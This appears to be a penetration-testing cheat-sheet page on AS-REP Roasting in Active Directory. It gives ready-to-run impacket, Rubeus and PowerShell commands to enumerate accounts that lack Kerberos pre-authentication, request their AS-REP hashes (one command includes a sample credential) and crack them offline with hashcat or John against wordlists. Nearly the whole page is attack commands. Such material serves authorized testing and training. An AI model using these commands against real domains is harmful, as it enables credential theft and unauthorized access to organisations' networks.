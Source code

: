 # AS-REP Roasting

## ASREPRoast

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>auth rep</p></figcaption></figure>

{% hint style="warning" %}
If a user's UserAccountControl settings have "Do not require Kerberos pre-authentication" enabled, i.e., Kerberos auth disabled, it is possible to grab the user's crackable AS-REP and brute-force it offline.
{% endhint %}

### **Linux**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>#WithOut User
</strong><strong>impacket-GetNPUsers  jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>#Using User
</strong><strong>impacket-GetNPUsers jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
</strong></code></pre>

Crack using hashcat Or john

### **Windows**

```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
```



### Enumeration

```powershell
Get-NetUser -PreauthNotRequired 
Get-DomainUser -PreauthNotRequired -Verbose
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True}
```



> Powershell script to know users have weak config (<mark style="color:red;">**Don't req preAuth**</mark>)
>
> {% code title="preAuthRoasting.ps1" %}
> ```powershell
> $strFilter = “(&(objectCategory=User)(userAccountControl:1.2.840.113556.1.4.803:=4194304))”
> $objDomain = New-Object System.DirectoryServices.DirectoryEntry
> $objSearcher = New-Object System.DirectoryServices.DirectorySearcher
> $objSearcher.SearchRoot = $objDomain
> $objSearcher.Filter = $strFilter
> $objSearcher.SearchScope = “Subtree”
> $colProplist = “name”
> foreach ($I in $colPropList){$objSearcher.PropertiesToLoad.Add($i)}
> $colResults = $objSearcher.FindAll()
> $colResults | Format-Table
> ```
> {% endcode %}
>
> ```powershell
> #Use ASREPRoast
> powershell.exe -ep bypass
> import-moudle .\preAuthRoasting.ps1
> Invoke-ASREPRoast -Verbose
> Invoke-ASREPRoast -Domain wargrey.mon -Server 192.168.1.50 | select -expand Hash
> ```

### Impacket

```bash
impacket-GetNPUsers hacktor.local/ -usersfile <userfile> -dc-ip 192.168.1.50
john --wordlist=words.txt hash.txt

impacket-GetNPUsers services.local/ -usersfile users.txt -request -format hashcat -outputfile asreproast.txt -dc-ip 10.10.175.105 
#crack Using John
#windows env
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
#Linux env
john --wordlist=/usr/shere/wordlists/rockyou hash.txt 
#OR https://hashcat.net/wiki/doku.php?id=<Algo-Number>
hashcat -m <Algo-Number> hash.txt /usr/share/wordlists/rockyou.txt --show


```

Resources

{% embed url="https://blog.harmj0y.net/activedirectory/roasting-as-reps/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}

{% embed url="https://github.com/jwardsmith/Active-Directory-Exploitation#asreproast" %}
